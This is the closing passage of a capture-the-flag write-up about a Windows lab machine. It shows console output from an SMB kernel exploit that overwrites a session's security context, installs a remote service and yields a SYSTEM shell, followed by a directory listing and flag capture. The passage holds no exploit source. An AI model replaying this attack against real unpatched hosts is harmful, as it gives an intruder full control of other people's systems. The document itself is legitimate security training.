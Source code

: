 ```bash
unexpected alignment, diff: 0x-6b3fb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a00891f088
InParam: 0xfffff8a00891915c
MID: 0x2303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service WiMl.....
Starting service WiMl.....
The NETBIOS connection with the remote host timed out.
Removing service WiMl.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

I got a shell!

![[Pasted image 20210501191120.png]]

It seems this pops out directly as system. So we can go and grab both flags.

There's the `pwned.txt` file from before...

```cmd
c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of c:\

14/07/2009  04:20    <DIR>          PerfLogs
24/12/2017  03:23    <DIR>          Program Files
14/07/2017  17:58    <DIR>          Program Files (x86)
01/05/2021  17:55                 0 pwned.txt
01/05/2021  19:14             7,168 sc.exe
14/07/2017  14:48    <DIR>          Share
21/07/2017  07:56    <DIR>          Users
15/01/2021  11:42    <DIR>          Windows
```

And here are the flags:

![[Pasted image 20210501191356.png]]

![[Pasted image 20210501192018.png]]

That's the box!

![[Pasted image 20210501205703.png]]

# Tags

#writeup #cve #windows